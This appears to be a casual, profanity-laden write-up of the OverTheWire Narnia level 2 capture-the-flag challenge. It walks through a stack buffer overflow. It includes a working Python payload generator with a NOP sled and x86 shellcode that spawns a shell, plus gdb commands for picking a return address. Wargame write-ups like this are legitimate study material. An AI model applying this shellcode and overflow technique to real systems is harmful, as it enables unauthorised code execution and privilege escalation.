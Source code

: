 ```
WHAT THE FUCK?! I looked into this because I was sure I was doing the right thing, and turned out I was! But with python 3 (the only version accessible in the server) there is some weird interpretation of the string that makes that random `0xc2` byte show up. I admit that I'm still trying to understand what it does with my fucking bytes, and tbh I was about to try delve into it, but when I looked at the solution... I just gave up, fuck you, you snake.

First solution: use python 2 (too bad we don't have it).
Second solution: use this abomination of a script
```
import sys

payload = b'\x90' * 98 + b'\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80' + sys.argv[1].encode('latin-1').decode('unicode_escape').encode('latin-1')
sys.stdout.buffer.write(payload)
```
I really hope this is just my problem sucking at python but goddamn...

Let's analyze it:
- we import `sys` because apparently with the function of the package that writes to stdout, we can actually have the string with the right interpretation of the bytes we want to write. Yikes.
- then I said _"ok, I'll have to change the value of the address I want to write in the eip so let's make this an argument to pass to the script"_ and suddenly I was in that `encode().decode()` chain that Idespite with all my heart. But we go on lol

## Fancy stuff
As you see I took some step forward: we said that we needed to write 136 bytes, 4 for the address, 132 for NOPs. Now, as we were saying, NOPs are real instructions that the OS can execute inside our binary, so other valid instructions can be added too, like a shellcode!
It is exactly the one of narnia1, with a length of 34 bytes, meaning that the number of NOPs is of 98.
Now we run it
```
gef> r $(python3 narnia2.py 'BBBB')
```
and we have our address overwritten in the correct way (try `info frame`) and the stack is filled with the content we want!
Btw, if you want to have a better look at the stack, try
```
gef> x/100x $esp+500
```
Why `+500`? Tbh still trying to understand... You can just look up $esp, but stacks grow from the bottom to the top, so you still to go a little bit down. An alternative would be using `gef> vmmap` to see the stack start and end addresses, and subtracting from the end, until finding our malicious bytes.
The notation before the address is to choose how to display values, [this cheatsheet](https://trebledj.me/posts/gdb-cheatsheet/) is useful if you want.

By looking at the stack more closely with the last command, we can finally decide which is the address we want to target for the eip new value. Since NOPs are harmless commands (in our case lol) we can even decide to choose an address populated with our NOPs instructions, that eventually, with the eip increasing, will lead to our shellcode execution.

With this stack structure

![images/narnia2-gef-stack-view.png](images/narnia2-gef-stack-view.png)

I choose the `0xffffd544` address, right in the middle of our NOP chain.

## Success over this fucking guy
Now it's time for
```
gef> r $(python3 narnia2.py '\x44\xd5\xff\xff')
```
remember the endianess!
```